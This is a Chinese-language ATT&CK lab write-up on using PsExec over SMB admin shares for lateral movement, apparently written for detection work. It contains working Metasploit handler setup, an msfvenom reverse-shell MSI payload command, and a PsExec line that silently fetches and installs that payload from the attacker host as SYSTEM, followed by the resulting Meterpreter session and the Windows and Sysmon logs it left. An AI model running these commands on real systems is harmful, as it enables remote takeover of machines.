 # T1077-win-基于白名单PsExec执行payload

## 来自ATT&CK的描述

Windows系统具有只能由管理员访问的隐藏网络共享，并提供远程文件复制和其他管理功能。例如网络共享包括`C$`，`ADMIN$`，和`IPC$`。攻击者可以将此技术与具有管理员权限级别的帐户结合使用，通过服务器消息块（SMB）远程访问联网系统，以便使用远程过程调用（RPC），传输文件。攻击者还可以使用NTLM哈希来访问具有Pass Hash和某些配置和补丁级别的系统上的管理员共享。

Windows使用SMB服务，允许通过端口445/tcp进行文件传输和打印机共享。它允许枚举，读取和写入远程计算机的文件共享目录。虽然Windows服务器大量使用它来用于合法用途，并且允许用户用于文件和打印机共享，但许多攻击者也可以使用SMB来实现[横向移动](https://attack.mitre.org/tactics/TA0008)。你需要密切地观察这一活动并感知到威胁的存在。由于SMB流量在许多环境中都非常重要，因此分析攻击者在内网中利用SMB进行横向移动的非法行为变得十分复杂。

## 测试案例

微软于2006年7月收购sysinternals公司，PsExec是SysinternalsSuite的小工具之一，是一种轻量级的telnet替代品，允许在其他系统上执行进程，完成控制台应用程序的完全交互，而无需手动安装客户端软件，并且可以获得与控制台应用程序相当的完全交互性。

微软官方文档：

<https://docs.microsoft.com/zh-cn/sysinternals/downloads/psexec>

说明：PsExec.exe没有默认安装在windows系统。

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：win7（sysmon日志）

### 攻击分析

#### 配置MSF

```bash
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/handler) > set lport 4444
lport => 4444
msf5 exploit(multi/handler) > exploit
```

#### 生成payload

```bash
msfvenom -a  x86 --platform windows -p  windows/meterpreter/reverse_tcp LHOST=192.168.126.146 LPORT=4444 -f msi > shellcode.msi
```

#### 靶机执行

注意：需要管理员权限

```dos
PsExec.exe -d -s msiexec.exe /q /i http://192.168.126.146/shellcode.msi
```

#### 反弹shell

```bash
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.126.146:4444
[*] Sending stage (180291 bytes) to 192.168.126.149
[*] Meterpreter session 1 opened (192.168.126.146:4444 -> 192.168.126.149:49371) at 2020-04-18 23:09:44 +0800

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > getpid
Current pid: 2352
```

## 测试留痕

```log
windows 安全日志
EventID： 4688
进程信息:
新进程 ID: 0xe84
新进程名: C:\Users\12306Br0\Desktop\PSTools\PsExec.exe

EventID： 4688
进程信息:
新进程 ID: 0xfcc
新进程名: C:\Windows\PSEXESVC.exe

EVentID：5140
网络信息:
对象类型: File
源地址: fe80::719e:d312:648f:4884
源端口: 49369
共享信息:
共享名: \\*\IPC$

EventID：5145
网络信息:
对象类型: File
源地址: fe80::719e:d312:648f:4884
源端口: 49369

共享信息:
共享名称: \\*\IPC$
共享路径:
相对目标名称: PSEXESVC

SYSMON日志
EventID：1
Process Create:
RuleName:
UtcTime: 2020-04-18 15:09:29.237
ProcessGuid: {bb1f7c32-1829-5e9b-0000-00107a844001}
ProcessId: 3716
Image: C:\Users\12306Br0\Desktop\PSTools\PsExec.exe
FileVersion: 2.2
Description: Execute processes remotely
Product: Sysinternals PsExec
Company: Sysinternals - www.sysinternals.com
OriginalFileName: psexec.c
CommandLine: PsExec.exe  -d -s msiexec.exe /q /i http://192.168.126.146/shellcode.msi
CurrentDirectory: C:\Users\12306Br0\Desktop\PSTools\
User: 12306Br0-PC\12306Br0
LogonGuid: {bb1f7c32-5fc3-5e99-0000-0020eae10600}
LogonId: 0x6e1ea
TerminalSessionId: 1
IntegrityLevel: High
Hashes: SHA1=E50D9E3BD91908E13A26B3E23EDEAF577FB3A095
ParentProcessGuid: {bb1f7c32-1806-5e9b-0000-001070474001}
ParentProcessId: 3492
ParentImage: C:\Windows\System32\cmd.exe
ParentCommandLine: "C:\Windows\System32\cmd.exe"

EventID：1
Process Create:
RuleName:
UtcTime: 2020-04-18 15:09:29.284
ProcessGuid: {bb1f7c32-1829-5e9b-0000-00108c864001}
ProcessId: 4044
Image: C:\Windows\PSEXESVC.exe
FileVersion: 2.2
Description: PsExec Service
Product: Sysinternals PsExec
Company: Sysinternals
OriginalFileName: psexesvc.exe
CommandLine: C:\Windows\PSEXESVC.exe
CurrentDirectory: C:\Windows\system32\
User: NT AUTHORITY\SYSTEM
LogonGuid: {bb1f7c32-a6a0-5e60-0000-0020e7030000}
LogonId: 0x3e7
TerminalSessionId: 0
IntegrityLevel: System
Hashes: SHA1=A17C21B909C56D93D978014E63FB06926EAEA8E7
ParentProcessGuid: {bb1f7c32-a6a0-5e60-0000-001025ae0000}
ParentProcessId: 496
ParentImage: C:\Windows\System32\services.exe
ParentCommandLine: C:\Windows\system32\services.exe

EventID：1
Process Create:
RuleName:
UtcTime: 2020-04-18 15:09:29.440
ProcessGuid: {bb1f7c32-1829-5e9b-0000-00103c894001}
ProcessId: 1916
Image: C:\Windows\System32\msiexec.exe
FileVersion: 5.0.7601.17514 (win7sp1_rtm.101119-1850)
Description: Windows® installer
Product: Windows Installer - Unicode
Company: Microsoft Corporation
OriginalFileName: msiexec.exe
CommandLine: "msiexec.exe" /q /i http://192.168.126.146/shellcode.msi
CurrentDirectory: C:\Windows\system32\
User: NT AUTHORITY\SYSTEM
LogonGuid: {bb1f7c32-a6a0-5e60-0000-0020e7030000}
LogonId: 0x3e7
TerminalSessionId: 0
IntegrityLevel: System
Hashes: SHA1=443AAC22D57EDD4EF893E2A245B356CBA5B2C2DD
ParentProcessGuid: {bb1f7c32-1829-5e9b-0000-00108c864001}
ParentProcessId: 4044
ParentImage: C:\Windows\PSEXESVC.exe
ParentCommandLine: C:\Windows\PSEXESVC.exe
```

由于sysmon配置问题，只对进程创建行为进行监控

## 检测规则/思路

无具体检测规则，可根据PsExec特征进行检测。

## 参考推荐

MITRE-ATT&CK-T1077：<https://attack.mitre.org/techniques/T1077/>

基于白名单PsExec执行payload：<https://blog.csdn.net/ws13129/article/details/89879771>
